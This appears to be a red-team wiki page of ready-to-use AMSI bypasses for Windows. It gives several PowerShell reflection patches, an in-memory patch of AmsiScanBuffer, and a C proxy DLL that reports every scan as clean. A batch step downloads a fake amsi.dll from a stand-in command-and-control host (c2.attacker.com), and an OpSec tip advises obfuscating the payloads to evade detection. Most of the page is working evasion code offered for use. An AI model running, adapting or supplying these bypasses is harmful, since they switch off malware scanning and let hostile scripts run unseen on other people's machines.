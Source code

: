 ```yaml
---
title: AMSI
---
```


Endpoint protection software uses the *Antimalware Scan Interface* to prevent PowerShell, VBScript, JScript and Office VBA macros from executing if they match known bad patterns.

> **OpSec:**
> The payloads below require obfuscation.
> Heavily obfuscated payloads are detected more frequently than payloads that are only slightly modified in the right place.

Patch AMSI in PowerShell with Matt Graebers reflection method.

~~~ ps1
$a = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$b = $a.GetField('amsiInitFailed', 'NonPublic,Static')
$b.SetValue($null, $true)
$b.GetValue($null)
~~~

Variation for PowerShell 6.

~~~ ps1
$a = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$b = $a.GetField('s_amsiInitFailed', 'NonPublic,Static')
$b.SetValue($null, $true)
$b.GetValue($null)
~~~

Variation from OSEP.

~~~ ps1
$a = [Ref].Assembly.GetTypes() | ?{$_.Name -like '*siUtils'}
$b = $a.GetFields('NonPublic,Static') | ?{$_.Name -like '*siContext'}
[IntPtr]$c = $b.GetValue($null)
[Int32[]]$d = @(0xff)
[System.Runtime.InteropServices.Marshal]::Copy($d, 0, $c, 1)
~~~

Patch AMSI at process-level with Rasta Mouse's [AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass).

~~~ powershell
Add-Type @'
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
'@
$a = [Win32]::LoadLibrary('amsi.dll')
$b = [Win32]::GetProcAddress('AmsiScanBuffer')
$c = 0
[Win32]::VirtualProtect($b, [uint32]3, 0x40, [ref]$c)
$d = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($d, 0, $b, 6)
[Win32]::VirtualProtect($b, [uint32]3, 0x20, [ref]$c)
~~~

Variation from [senzee1984](https://github.com/senzee1984/Amsi_Bypass_In_2023/blob/main/Attack_AmsiScanBuffer.ps1).

Alternatively copy `powershell.exe` and a fake `asmi.dll` into a temporary directory ([source](https://twitter.com/eversinc33/status/1666121784192581633)).

~~~ bat
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe .
copy C:\Windows\System32\amsi.dll amsiorg.dll
curl.exe -O https://c2.attacker.com/amsi.dll
.\powershell.exe
~~~

`./amsi.c` ([source](https://gist.github.com/eversinc33/beb43d05695de77a030c97ab769682ca)):

~~~ c
#include <windows.h>
#pragma comment(linker, "/export:AmsiCloseSession=amsiorg.AmsiCloseSession,@1")
#pragma comment(linker, "/export:AmsiInitialize=amsiorg.AmsiInitialize,@2")
#pragma comment(linker, "/export:AmsiOpenSession=amsiorg.AmsiOpenSession,@3")
#pragma comment(linker, "/export:AmsiScanString=amsiorg.AmsiScanString,@5")
#pragma comment(linker, "/export:AmsiUacInitialize=amsiorg.AmsiUacInitialize,@6")
#pragma comment(linker, "/export:AmsiUacScan=amsiorg.AmsiUacScan,@7")
#pragma comment(linker, "/export:AmsiUacUninitialize=amsiorg.AmsiUacUninitialize,@8")
#pragma comment(linker, "/export:AmsiUninitialize=amsiorg.AmsiUninitialize,@9")
#pragma comment(linker, "/export:DllCanUnloadNow=amsiorg.DllCanUnloadNow,@10")
#pragma comment(linker, "/export:DllGetClassObject=amsiorg.DllGetClassObject,@11")
#pragma comment(linker, "/export:DllRegisterServer=amsiorg.DllRegisterServer,@12")
#pragma comment(linker, "/export:DllUnregisterServer=amsiorg.DllUnregisterServer,@13")

__declspec(dllexport) HRESULT AmsiScanBuffer(HANDLE context, PVOID buffer, ULONG length, LPCWSTR name, LPVOID session, INT* result) {
    *result = 0;
    return S_OK;
}

BOOL DllMain(HMODULE module, DWORD reason, LPVOID reserved) {
    return true;
}
~~~

Untested tools:

- [AMSITools](https://github.com/mgeeky/penetration-testing-tools/tree/master/red-teaming/amsitools), pulls AMSI events to troubleshoot AMSI detections
- [AMSITrigger](https://github.com/rythmstick/amsitrigger), identify what part of a script triggers AMSI

References:

- [Antivirus Evasion: Tearing AMSI down with 3 bytes only](http://web.archive.org/web/20230111134440/https://www.blazeinfosec.com/post/tearing-amsi-with-3-bytes/), patching `AmsiOpenSession` doesn't result in a process-level AMSI bypass
- [New AMSI bypass using CLR hooking](http://web.archive.org/web/20221229140935/https://practicalsecurityanalytics.com/new-amsi-bypass-using-clr-hooking/)
- [AMSI unchained - Blackhat Asia 2022](./amsi-unchained-blackhat-asia-2022.pdf), examples for multiple bypass techniques
- [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell), collection of AMSI bypass methods
